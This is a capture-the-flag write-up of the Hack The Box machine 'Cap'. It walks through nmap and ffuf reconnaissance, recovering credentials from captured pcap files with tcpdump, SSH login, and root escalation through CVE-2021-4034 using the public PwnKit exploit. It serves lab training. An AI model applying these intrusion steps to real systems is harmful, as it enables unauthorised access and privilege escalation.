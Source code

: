 ```yaml
---
title: HTB - Cap
date: 2021-05-06 00:00:00 +8000
categories: [hackthebox ]
tags: [HackTheBox, Information Disclosure, CVE-2021-4034, tcpdump]
image:
  path: /assets/img/post/cap/Cap.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Hack the Box - Cap.
---
```

 
## Box Info

| Name                  | Cap              | 
| :-------------------- | ---------------: |
| Release Date          | 5 Jun, 2024      |
| OS                    | Linux            |
| Rated Difficulty      | Easy             |


## Ping 

```bash
ping -c 3 10.10.10.245

PING 10.10.10.245 (10.10.10.245) 56(84) bytes of data.
64 bytes from 10.10.10.245: icmp_seq=1 ttl=63 time=55.6 ms
64 bytes from 10.10.10.245: icmp_seq=2 ttl=63 time=55.9 ms
64 bytes from 10.10.10.245: icmp_seq=3 ttl=63 time=54.8 ms
```

`ttl=63 -> Linux System`

## Nmap

```bash
nmap -p- --open --min-rate 5000 -n -sS -vvv -Pn 10.10.10.245
```

```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn                              
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.0 404 NOT FOUND                                    
|     Server: gunicorn                                                 
|     Date: Sat, 22 May 2021 10:51:48 GMT
|     Connection: close                                                
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 232
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>                                             
|     <h1>Not Found</h1>               
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>                         
|   GetRequest:                        
|     HTTP/1.0 200 OK                  
|     Server: gunicorn                 
|     Date: Sat, 22 May 2021 10:51:42 GMT                                      
|     Connection: close                
|     Content-Type: text/html; charset=utf-8                                   
|     Content-Length: 19386                                                    
|     <!DOCTYPE html>                  
|     <html class="no-js" lang="en">                                           
|     <head>
...[snip]...
SF:eck\x20your\x20spelling\x20and\x20try\x20again\.</p>\n");
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

![Image](../assets/img/post/cap/image.png)

data/1

![Image](../assets/img/post/cap/image-1.png)

I starter with a scan directoriy but dont foudn anything interesting

![Image](../assets/img/post/cap/image-2.png)

## Information Disclosure

```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -u 'http://10.10.10.245/data/FUZZ' -fs 208
```

![Image](../assets/img/post/cap/image-3.png)

I download those and i test one by one to found sensitive data

![Image](../assets/img/post/cap/image-4.png)

```bash
tcpdump -qns 0 -X -r 0.pcap
```

**User:**

![Image](../assets/img/post/cap/image-5.png)

**Password:**

![Image](../assets/img/post/cap/image-6.png)

`nathan`

`Buck3tH4TF0RM3!`


**Login with ssh**

![Image](../assets/img/post/cap/image-7.png)

## Escalation Privilege | CVE-2021-4034

```BASH
find / -perm -4000 2>/dev/null
```

![Image](../assets/img/post/cap/image-8.png)

We found a bin interesting called pkexec. Looking if the pkexec has a vulnerability, i find a CVE-2021-4034

https://github.com/ly4k/PwnKit

We upload the file PwnKit and exploit as nathan and BOOM!

![Image](../assets/img/post/cap/image-9.png)

Pwned!! 
